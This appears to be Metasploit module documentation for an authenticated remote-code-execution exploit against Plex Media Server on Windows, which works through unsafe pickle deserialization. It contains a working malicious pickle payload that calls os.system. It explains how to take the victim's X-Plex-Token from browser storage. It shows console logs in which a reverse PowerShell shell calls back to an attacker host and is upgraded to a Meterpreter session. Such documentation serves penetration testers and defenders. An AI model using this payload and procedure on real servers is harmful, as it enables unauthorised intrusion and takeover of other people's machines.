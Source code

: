 ## Vulnerable Application

This module exploits an authenticated Python unsafe `pickle.load` of a
`Dict` file. An authenticated attacker can create a photo library and
add arbitrary files to it. After setting the Windows only Plex
variable `LocalAppDataPath` to the newly created photo library, a file
named `Dict` will be unpickled, which causes an RCE as the user who
started Plex. Due to the restrictions of pickle RCE, we write our
payload to a file then simply execute it through the pickled `Dict`
file.

If an exploit fails, or is cancelled, `Dict` and `Dict.bat` are
left on disk, a new `ALBUM_NAME` will be required as subsuquent writes
will make `Dict-1` and `Dict-1.bat`, and not execute.

A vulnerable version of the software can be downloaded from
[uptodown.com](https://plex-media-server.en.uptodown.com/windows/versions),
specifically [1.18.5.2309](https://plex-media-server.en.uptodown.com/windows/download/2177216)
is vulnerable and used for developing the module.

The plex server needs to be claimed by an account, and the module `PLEX_TOKEN` option
needs permission to create a library, and upload files to it.

### Pickle Stub

This exploit requires a python pickle file which can be generated with the following
code:

```
import pickle
import os

class EvilPickle(object):
  def __init__(self):
    pass
  def __reduce__(self):
     return (os.system,('c:\\Users\\Public\\mememe\\Dict.bat',))

e = EvilPickle()
pickle.dumps(e)
"cposix\nsystem\np0\n(S'c:\\\\Users\\\\Public\\\\mememe\\\\Dict.bat'\np1\ntp2\nRp3\n."
```

However, this was run on Linux and thus `posix` can be seen in the output.  When run
on Windows, the output will be slightly different and use `nt` instead of `posix`.
The Windows version of the code is required.

Also note the length field as documented
[here](https://github.com/rapid7/metasploit-framework/pull/13741#discussion_r445579648)

### Pickle Gotchas

All the examples of Evil Pickle attacks seem to call one command/function.
[1](https://github.com/fhightower/evil-pickle/blob/master/evil_pickle_writer.py#L17),
[2](https://medium.com/@abhishek.dev.kumar.94/sour-pickle-insecure-deserialization-with-python-pickle-module-efa812c0d565),
[3](https://blog.nelhage.com/2011/03/exploiting-pickle/),
[4](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Either due to the pickling, or the HTTP server interaction, or running on Windows, all attempts to either call multi-function such as:
```eval(base64.b64decode())```
or execute OS commands with more than one parameter
```os.system('net user...')```
or
```os.system('powershell.exe ...')```
failed.  With this in mind, the strategy of uploading a payload file, and calling it was the one that worked.


## Verification Steps

  1. Install the application
  2. Register/Connect it to your Plex Pass account
  3. Start msfconsole
  4. Do: ```use windows/http/plex_unpickle_dict_rce```
  5. Do: ```run```
  6. You should get a shell.

## Options

### ALBUM_NAME

Name of the photo album to create.  Default is random 6 character.

### LIBRARY_PATH

The path to write the photo library to.  Must be valid.  Default is `C:\\Users\\Public`

### PLEX_TOKEN

The `X-Plex-Token` value from requests from an authenticated session.

There are multiple ways to obtain this value.  The easiest is most likely opening the
Console on your web browser (F12) and typing `window.localStorage.myPlexAccessToken`.
However, it can also be obtained from
[plex library files](https://support.plex.tv/articles/204059436-finding-an-authentication-token-x-plex-token/)
or by following [this comment](https://github.com/rapid7/metasploit-framework/pull/13741#issuecomment-649076121)

### REBOOT_SLEEP

Amount of seconds to sleep waiting on the server to reboot.  In testing `10` seemed to be OK, default is `15`.

### PAYLOAD

Payload is extremly picky, from testing only `cmd/windows/reverse_powershell` worked, however it was very reliable.

## Scenarios

### Plex 10.0.16299 on Windows 10 16299

  ```
  [*] Processing plex.rb for ERB directives.
  resource (plex.rb)> use exploit/windows/http/plex_unpickle_dict_rce
  resource (plex.rb)> set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  resource (plex.rb)> set lhost 2.2.2.2
  lhost => 2.2.2.2
  resource (plex.rb)> set PLEX_TOKEN jy4g8mz2cmHbAaPBsEG7
  PLEX_TOKEN => jy4g8mz2cmHbAaPBsEG7
  resource (plex.rb)> set verbose true
  verbose => true
  resource (plex.rb)> exploit
  [*] Started reverse TCP handler on 2.2.2.2:4444 
  [*] Gathering Plex Config
  [*] Server Name: EXPLOITABLE -win10
  [+] Server OS: Windows (10.0 (Build 16299))
  [+] Server Version: 1.18.5.2309-f5213a238
  [*] Adding new photo library
  [+] Created Photo Library: 94
  [*] Adding pickled Dict to library
  [*] Adding payload to library root
  [*] Changing AppPath
  [*] Restarting Plex
  [*] Sleeping 10 seconds for server restart
  [*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:57277) at 2020-06-19 23:32:00 -0400
  [*] Cleanup Phase: Reverting changes from exploitation
  [*] Changing AppPath
  [*] Restarting Plex
  [!] Tried to delete C:\Users\Public\ULTTqY\Plex Media Server\Plug-in Support\Data\com.plexapp.system\Dict, unknown result
  [*] Deleting Photo Library
  [!] Tried to delete C:\Users\Public\ULTTqY\Dict.bat, unknown result
  
  Could Not Find C:\Windows\.exe
  
  C:\Windows>background
  
  Background session 1? [y/N]  y 
  ```

  ```
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > sessions -u 1
  [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
  
  [*] Upgrading session ID: 1
  [*] Starting exploit/multi/handler
  [*] Started reverse TCP handler on 2.2.2.2:4433 
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > 
  [*] Sending stage (176195 bytes) to 1.1.1.1
  [*] Meterpreter session 2 opened (2.2.2.2:4433 -> 1.1.1.1:57293) at 2020-06-19 23:33:43 -0400
  [*] Stopping exploit/multi/handler
  
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > sessions -i 2
  [*] Starting interaction with 2...
  
  meterpreter > getuid
  Server username: WIN10PROLICENSE\windows
  meterpreter > sysinfo
  Computer        : WIN10PROLICENSE
  OS              : Windows 10 (10.0 Build 16299).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```
